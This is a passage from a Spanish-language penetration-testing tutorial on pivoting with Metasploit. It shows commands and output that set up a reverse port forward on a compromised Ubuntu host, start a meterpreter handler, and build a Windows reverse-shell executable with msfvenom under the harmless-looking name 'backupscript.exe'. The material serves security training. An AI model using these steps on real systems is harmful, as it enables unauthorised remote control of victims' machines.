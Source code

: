 ### Reenvío de puerto inverso

Metasploit no solo permite reenvíos de puertos locales, sino también un reenvío inverso de puertos, conocido como reverse port forwarding. Imagina que quieres que el servidor comprometido escuche en un puerto determinado y que, al recibir conexiones en ese puerto, las reenvíe directamente a tu máquina atacante. Por ejemplo, si el servidor comprometido es Ubuntu y tu máquina atacante es Windows, puedes configurar el servidor Ubuntu para reenviar las conexiones recibidas en su puerto 1234 hacia tu máquina Windows en el puerto 8081.

Para implementar esto, en el contexto de un shell ya establecido con Metasploit desde un escenario previo, podrías usar el siguiente comando.

```bash
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.49
[*] Reverse TCP relay created: (remote) [::]:1234 -> (local) 10.10.14.49:8081             
```

Este comando instruiría al servidor Ubuntu a reenviar todas las conexiones de su puerto 1234 a tu máquina atacante en el puerto 8081. Adicionalmente, en tu máquina atacante, debes configurar un oyente con meterpreter para esperar conexiones entrantes en el puerto 8081, específicamente esperando un shell de Windows.

A continuación configuramos y ejecutamos el ```multi/handler```:

```bash
meterpreter > bg
[*] Backgrounding session 16...
msf6 auxiliary(scanner/portscan/tcp) > use exploit/multi/handler
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081
           
```

Creamos el payload considerando la IP de la máquina víctima obtenida en un principio de este modulo:

```bash
┌─[root@kali]─[/home/user/pivoting]
└──╼ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe              
```
